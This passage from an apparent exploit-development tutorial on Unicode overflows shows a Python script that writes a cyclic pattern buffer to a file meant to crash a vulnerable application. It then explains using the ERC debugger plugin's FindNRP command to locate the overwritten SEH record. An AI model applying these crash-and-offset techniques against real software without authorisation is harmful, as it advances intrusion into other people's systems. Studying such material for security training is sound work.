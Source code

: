 ```
buf += b"1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0"  
buf += b"Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9F"  
buf += b"c0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe"  
buf += b"9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8"  
buf += b"Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7F"  
buf += b"k8Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn"  
buf += b"7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0Fq1Fq2Fq3Fq4Fq5Fq6"  
buf += b"Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5F"  
buf += b"t6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw"  
buf += b"5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4"  
buf += b"Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3G"  
buf += b"c4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf"  
buf += b"3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2"  
buf += b"Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk"  
  
f.write(buf)  
f.close() 
```

With this if we now generate the crash-2.txt file and copy its contents into our vulnerable application we will encounter a crash. We can now run the FindNRP command in order to identify how far through our buffer the SEH record was overwritten. 

Appended to the FindNRP command is the -Unicode switch. This switch specifies that the character encoding is UTF-16 (the Windows Unicode default) and only needs to be specified once per debugging session. As such all further commands will be in Unicode (where applicable) until the debugger is restarted.

**Command:** 
```
ERC --FindNRP -Unicode
```

<p align="center"><img src="/images/basics-of-exploit-development-4-unicode-overflows/FindNRP.PNG"/></p>    
<p align="center"><i>Output of ERC –FindNRP -Unicode.</i></p>
